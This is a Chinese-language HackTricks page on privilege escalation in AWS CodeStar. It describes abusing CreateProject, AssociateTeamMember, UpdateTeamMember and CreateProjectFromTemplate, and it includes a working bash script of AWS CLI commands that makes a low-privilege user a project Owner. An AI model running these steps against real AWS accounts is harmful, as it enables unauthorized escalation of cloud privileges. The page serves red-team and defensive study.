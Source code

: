# AWS - Codestar权限提升

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在HackTricks中看到您的**公司广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[NFTs收藏品](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或在**Twitter**上**关注**我们 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## Codestar

您可以在以下位置找到有关Codestar的更多信息：

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `iam:PassRole`, `codestar:CreateProject`

拥有这些权限后，您可以**滥用Codestar IAM角色**通过**云模板**执行**任意操作**。请查看以下页面：

{% content-ref url="iam-passrole-codestar-createproject.md" %}
[iam-passrole-codestar-createproject.md](iam-passrole-codestar-createproject.md)
{% endcontent-ref %}

### `codestar:CreateProject`, `codestar:AssociateTeamMember`

此技术利用`codestar:CreateProject`创建Codestar项目，并使用`codestar:AssociateTeamMember`将IAM用户设为新CodeStar **项目**的**所有者**，从而授予他们具有一些额外权限的**新策略**。
```bash
PROJECT_NAME="supercodestar"

aws --profile "$NON_PRIV_PROFILE_USER" codestar create-project \
--name $PROJECT_NAME \
--id $PROJECT_NAME

echo "Waiting 1min to start the project"
sleep 60

USER_ARN=$(aws --profile "$NON_PRIV_PROFILE_USER" opsworks describe-my-user-profile | jq .UserProfile.IamUserArn | tr -d '"')

aws --profile "$NON_PRIV_PROFILE_USER" codestar associate-team-member \
--project-id $PROJECT_NAME \
--user-arn "$USER_ARN" \
--project-role "Owner" \
--remote-access-allowed
```
如果您已经是**项目成员**，可以使用权限**`codestar:UpdateTeamMember`**将您的角色**更新为所有者**，而不是`codestar:AssociateTeamMember`。

**潜在影响:** 特权升级到生成的codestar策略。您可以在以下位置找到该策略的示例：

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `codestar:CreateProjectFromTemplate`

1. 使用**`codestar:CreateProjectFromTemplate`**创建新项目。
2. 您将被授予对具有传递给其“CodeStarWorker-\<project name>-CloudFormation” IAM角色的堆栈的**`cloudformation:UpdateStack`**访问权限。
3. 使用CloudFormation权限使用您选择的CloudFormation模板更新目标堆栈。
4. 需要更新的堆栈的名称将是“awscodestar-\<project name>-infrastructure”或“awscodestar-\<project name>-lambda”，取决于使用的模板（在示例利用脚本中至少是这样）。

此时，您现在将拥有对授予给**CloudFormation IAM角色**的权限的**完全访问权限**。仅凭此权限您将无法获得完整的管理员权限；您需要环境中其他配置不当的资源来帮助您实现这一点。

有关更多信息，请查看原始研究：[https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/](https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/)。\
您可以在[https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar\_createprojectfromtemplate\_privesc/CodeStarPrivEsc.py](https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar\_createprojectfromtemplate\_privesc/CodeStarPrivEsc.py)找到利用工具。

**潜在影响:** 特权升级到cloudformation IAM角色。

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[NFTs](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**上关注**我们。
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来**分享您的黑客技巧**。

</details>
